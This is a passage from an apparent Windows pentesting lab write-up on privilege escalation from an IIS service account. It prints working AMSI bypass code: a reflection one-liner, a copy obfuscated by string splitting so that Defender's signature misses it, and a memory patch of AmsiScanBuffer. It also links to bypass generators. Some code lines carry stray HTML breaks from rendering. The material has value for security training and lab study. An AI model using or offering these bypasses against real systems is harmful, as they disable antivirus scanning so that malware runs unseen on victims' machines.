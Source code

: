 - As a IIS service user we got SeImpersonatePrivilege privilege ! (same thing on mssql, the service got this permission by default)

## Privesc

- There is a lot of privesc techniques on microsoft windows. Here we will just try two that got a “not fix” by microsoft, printspoofer and krbrelay.

- As the privesc is run on the target computer, in this chapter we will do some powershell to escalate our privileges.

### AMSI bypass

> To do all my tests, i enable windows defender on all system. Castelblack got defender disabled by default, you should enable it before testing the privesc techniques described here

- To be able to play usually AV detected application from memory you should bypass the Anti Malware Scanning Interface (AMSI) on the current process
    
- There is multiple ways to bypass AMSI and you can find them on the github page : [https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell](https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell)
    
- Also you can find custom generated payload in this website [amsi.fail](https://amsi.fail/)
    
- All the public available method seems to be signed, but we can also pick one and make some hand made small modifications on it
    
- Original :
    
```
# Matt Graebers second Reflection method<br>[Runtime.InteropServices.Marshal]::WriteInt32([Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiContext',[Reflection.BindingFlags]'NonPublic,Static').GetValue($null),0x41414141)
```


- Modified version:
```
$x=[Ref].Assembly.GetType('System.Management.Automation.Am'+'siUt'+'ils');$y=$x.GetField('am'+'siCon'+'text',[Reflection.BindingFlags]'NonPublic,Static');$z=$y.GetValue($null);[Runtime.InteropServices.Marshal]::WriteInt32($z,0x41424344)
```

- This is trivial modifications, but this is enough to bypass the signature at the time of writing.
- Once we have done that we can use the rasta mouse AMSI bypass to disable AMSI at the .net level.
- If you want to know why you have to do that, you should read this blog post from @ShitSecure explaining the difference between powershell and .net AMSI level : [https://s3cur3th1ssh1t.github.io/Powershell-and-the-.NET-AMSI-Interface/](https://s3cur3th1ssh1t.github.io/Powershell-and-the-.NET-AMSI-Interface/)
```
# Patching amsi.dll AmsiScanBuffer by rasta-mouse
$Win32 = @"
using System;
using System.Runtime.InteropServices;
public class Win32 {
    [DllImport("kernel32")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);    
    [DllImport("kernel32")]    
    public static extern IntPtr LoadLibrary(string name);
    [DllImport("kernel32")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);}"@Add-Type $Win32<br><br>$LoadLibrary = [Win32]::LoadLibrary("amsi.dll")
    $Address = [Win32]::GetProcAddress($LoadLibrary, "AmsiScanBuffer")
    $p = 0<br>[Win32]::VirtualProtect($Address, [uint32]5, 0x40, [ref]$p)
    $Patch = [Byte[]] (0xB8, 0x57, 0x00, 0x07, 0x80, 0xC3)[System.Runtime.InteropServices.Marshal]::Copy($Patch, 0, $Address, 6)
```
